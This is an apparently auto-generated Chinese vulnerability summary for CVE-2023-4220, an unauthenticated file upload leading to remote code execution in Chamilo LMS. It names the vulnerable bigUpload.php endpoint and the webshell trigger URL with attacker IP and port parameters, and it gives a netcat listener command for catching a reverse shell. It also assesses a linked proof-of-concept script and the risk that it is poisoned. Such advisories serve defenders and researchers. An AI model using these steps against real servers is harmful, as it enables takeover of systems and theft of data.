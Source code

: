 ## CVE-2023-4220-Chamilo LMS-远程代码执行

**漏洞编号:** CVE-2023-4220

**漏洞类型:** 远程代码执行

**影响应用:** Chamilo LMS

**危害等级:** 高危，可能导致服务器完全控制，包括信息窃取、安装勒索软件等

**影响版本:** <= 1.11.24

**利用条件:** 目标系统运行Chamilo LMS <= 1.11.24，且`/main/inc/lib/javascript/bigupload/inc/bigUpload.php`文件存在且可访问

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2023-4220是Chamilo LMS中一个未经验证的任意文件上传漏洞，位于`/main/inc/lib/javascript/bigupload/inc/bigUpload.php`的“大文件上传”功能中。攻击者无需身份验证即可上传恶意文件（例如，PHP webshell），从而实现存储型跨站脚本攻击 (XSS) 和远程代码执行 (RCE)。

**利用方式：**

1.  **上传恶意文件：** 攻击者使用POST请求将包含恶意代码（如PHP反向shell）的webshell文件上传到`/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported`。该漏洞允许上传任意类型的文件，绕过了文件类型检查。
2.  **触发恶意代码执行：** 成功上传后，攻击者通过访问上传的文件（例如：`/main/inc/lib/javascript/bigupload/files/cmd.php?ip=<攻击者IP>&port=<攻击者端口>`）来触发webshell的执行。这将导致服务器执行攻击者上传的恶意代码。
3.  **获取反向Shell：** 攻击者需要提前在攻击机上监听指定的端口（例如，使用`nc -lvnp <端口>`）。当webshell执行时，它会尝试连接攻击者的IP地址和端口，从而建立一个反向shell连接，使攻击者能够远程控制受害服务器。

**POC有效性评估：**

提供的PoC代码（`exploit.py`）实现了上述利用过程。它首先创建一个包含反向shell代码的PHP文件（`cmd.php`），然后将其上传到存在漏洞的服务器，并通过HTTP GET请求触发该文件的执行。PoC代码还包含启动netcat监听器的功能，用于接收反向shell连接。根据搜索结果和漏洞描述，此PoC代码被认为是有效的。

**投毒风险评估：**

虽然该代码的主要目的是利用漏洞获取反向shell，但仍然存在一定的投毒风险。该脚本执行后，会在目标系统上写入webshell文件，并且通过HTTP请求访问该webshell。理论上，作者可能在shell代码中插入额外的恶意代码，例如，用于收集系统信息、植入后门或进行其他恶意活动。此外，上传webshell本身就存在一定风险，因为webshell可能被其他攻击者利用。由于该脚本来自非官方渠道，并且webshell本身就具有潜在的风险，因此投毒的可能性评估为10%。

**项目地址:** [LGenAgul/CVE-2023-4220-Proof-of-concept](https://github.com/LGenAgul/CVE-2023-4220-Proof-of-concept)

**漏洞详情:** [CVE-2023-4220](https://nvd.nist.gov/vuln/detail/CVE-2023-4220)